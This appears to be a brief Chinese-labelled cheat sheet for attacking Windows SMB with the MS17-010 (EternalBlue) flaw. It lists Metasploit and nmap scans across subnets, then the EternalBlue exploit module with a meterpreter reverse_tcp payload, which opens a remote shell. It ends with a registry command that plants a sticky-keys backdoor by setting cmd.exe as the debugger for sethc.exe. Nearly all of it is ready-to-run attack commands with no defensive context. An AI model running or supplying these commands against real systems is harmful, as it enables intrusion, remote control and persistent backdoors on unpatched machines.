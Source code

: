 	扫描
	>use auxiliary/scanner/smb/smb_ms17_010
	>set rhosts 192.168.1.0/24
	&
	>nmap -sT -p 445,139 -open -v -Pn --script=smb-vuln-ms17-010.nse 10.11.1.0/20
	攻击
	>use exploit/windows/smb/ms_17_010_eternalblue易蓝屏
	>set payload windows/x64/meterpreter/reverse_tcp
	>use auxiliary/admin/smb/ms17_010_command
	>set command REG ADD \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\sethc.exe\" /t REG_SZ /v Debugger /d \"C:\\windows\\system32\\cmd.exe\" /f

